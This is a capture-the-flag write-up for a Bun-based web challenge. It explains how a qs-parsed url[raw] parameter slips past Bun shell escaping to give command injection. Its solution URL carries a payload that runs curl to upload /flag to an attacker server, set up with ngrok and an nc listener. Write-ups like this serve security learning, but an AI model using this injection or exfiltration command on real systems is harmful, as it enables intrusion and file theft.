 ## Boom-boom-hell

This challenge uses Bun as the framework to develop the web app.
It uses the docker image: `oven/bun:1.0.35-slim` as the os running the webapp.
The flag is in `/flag`
the port uses is 3000.
The web app has one endpoint `/chall`. It receives a parameter `url` and execute the following steps:
- Verify if has special characters: `params.url.length < escapeHTML(params.url).length`
- Then it checks if the url inserted has the base url: `https://www.lycorp.co.jp`
- It then runs a command using the url: `$curl -sL ${lyURL}.text();`
- It counts all the LINE and Yahoo! words and executes another command: `echo $(date '+%Y-%m-%dT%H:%M:%S%z') - ${params.url} ::: ${JSON.stringify(counts)} >> ${logFile}`

## Solution

In the line: `const params = qs.parse(url.search, {ignoreQueryPrefix: true});` if we use `url[raw]=$()` it translates to `{"raw":"$()"}` and it won't be escaped and get executed when passed to : 
```js
await $`echo $(date '+%Y-%m-%dT%H:%M:%S%z') - ${params.url} ::: ${JSON.stringify(counts)} >> ${logFile}`;
```

In documentation,[https://bun.sh/docs/runtime/shell#escape-escape-strings](), *If you do not want your string to be escaped, wrap it in a { raw: 'str' } object:*.

So the solutions was: ``http://34.146.180.210:3000/chall?url[raw]=$(curl%20myserver%20-F=@/flag)`

Run ngrok: `ngrok http --domain=mutually-cheerful-meerkat.ngrok-free.app 8000` and replace myserver with the ngrok domain.
Run netcat: `nc -lvnp 8000`